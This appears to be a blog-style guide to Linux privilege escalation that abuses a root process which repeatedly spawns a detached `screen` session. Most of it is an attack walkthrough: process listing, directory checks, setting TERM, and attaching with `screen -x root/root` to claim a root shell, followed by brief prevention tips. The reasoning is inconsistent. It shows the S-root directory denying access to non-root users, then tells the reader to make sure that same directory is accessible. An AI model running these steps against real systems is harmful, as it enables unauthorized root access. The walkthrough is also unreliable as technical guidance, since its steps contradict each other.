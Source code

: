 ```yaml
---
title: "Privilege Escalation in Linux Through the 'screen' Command: A Detailed Guide"
date: 2022-08-16 14:06:02
categories: [linux-privilege-escalation]
tags: [linux-privilege-escalation, screen]
---
```


Privilege escalation is essential for system administrators and security researchers to gain complete control over an operating system. This guide explores a specific scenario where misuse or abuse of the `screen` command can lead to privilege escalation.

## Understanding `screen`

The `screen` command allows you to start a session and open multiple virtual terminals within that session. Processes running within `screen` continue even when their windows are not visible or if the user disconnects.

## Vulnerable Configuration and Analysis

Consider a scenario where a process, running as root, repeatedly creates `screen` sessions in a loop. The relevant command found using `ps aux` would be:

```bash
ps aux
```

**Typical output (relevant part):**
```shell
root 852 0.0 0.0 2608 1756 ? Ss 00:38 021 /bin/sh -c while true; do sleep 1; find /var/run/screen/S-root -empty -exec screen -dmS root \;; done
```

This script uses `find` to check if the `/var/run/screen/S-root` directory is empty and, if so, executes `screen -dmS root`, creating a detached session named "root".

## Detailed Commands and Manual

1. **`ls` Command and Permissions**:
   Checking the directory:
   ```bash
   ls -la /var/run/screen/
   ```

   Expected output:
   ```
   total 0
   drwxr-xr-x  3 root utmp  60 Apr 26 01:17 .
   drwxr-xr-x 26 root root 740 Apr 26 05:05 ..
   drwx------  2 root root  60 Apr 26 01:17 S-root
   ```

   Trying to access `S-root`:
   ```bash
   ls /var/run/screen/S-root
   ```

   Possible output:
   ```
   ls: cannot open directory 'S-root': Permission denied
   ```

   This indicates that the directory is protected and not accessible to non-root users.

2. **Setting the `TERM` Environment Variable**:
   To connect to a `screen` session created by another user, it is crucial to correctly set the `TERM` environment variable. Set it before attempting to attach to the session:

   ```bash
   export TERM=xterm
   ```

3. **`screen -dmS` Command**:
   The `screen` manual clarifies that the command `screen -dmS name` starts a `screen` session in detached mode with a specific name, in this case, "root". If the specific directory is empty, the `find` command will execute this, establishing a new `screen` session.

## Exploitation Process

To exploit this setup:

1. **Verify Conditions**:
   Ensure the `/var/run/screen/S-root` directory is accessible and empty.

2. **Wait for Session Creation**:
   The loop will check the directory and create the session if it is empty.

3. **Attach to the Session**:
   Use the following command to connect to the created session:
   ```bash
   screen -x root/root
   ```

This will give you shell access with root privileges.

## Prevention Measures and Conclusion

To prevent such exploitation:
- Restrict the ability to create `screen` sessions to unauthorized users.
- Monitor processes that automate the creation of `screen` sessions.
- Implement strict security policies for processes running as root, especially in critical environments.

Understanding these techniques not only helps administrators secure systems but also emphasizes the importance of security in Unix-like environments.
